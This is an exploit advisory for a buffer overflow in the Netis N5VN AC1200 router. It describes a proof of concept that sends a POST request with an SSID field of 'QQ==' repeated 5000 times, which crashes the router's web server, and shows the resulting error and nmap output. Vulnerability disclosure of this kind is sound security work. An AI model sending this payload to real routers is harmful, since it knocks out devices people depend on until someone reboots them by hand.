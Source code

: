 ## Exploit Title: Netis N5VN AC1200 - Buffer Overflow DOS (Denial of Service)

- Date: 05/03/2024

- Exploit Author: Van Lam Nguyen

- Facebook: fb.com/vanlam1412

- Vendor Homepage: [Netis Systems](https://www.netis-systems.com/)

- Version: Netis N5VN AC1200 V1.0.1.1742

- Tested on: Windows

- CVE : N/A

## Overview

- There exist a buffer overflow vulnerability in Netis N5VN AC1200 router that can allow an attacker to crash the web server running on the router by sending a crafted request

- To bring back the http (webserver), a user must physically reboot the route.

## Proof of Concept (Use python)

- POST request to change ssid Wireless 2.4G ('ssid': 'QQ==' \* 5000)

- Successfully: ('Connection aborted.', ConnectionResetError(10054, 'An existing connection was forcibly closed by the remote host', None, 10054, None))

- nmap 192.168.1.254 -p 80 80/tcp closed http

[Watch the video demonstration here](https://www.youtube.com/watch?v=yVUTTPHLiu8)
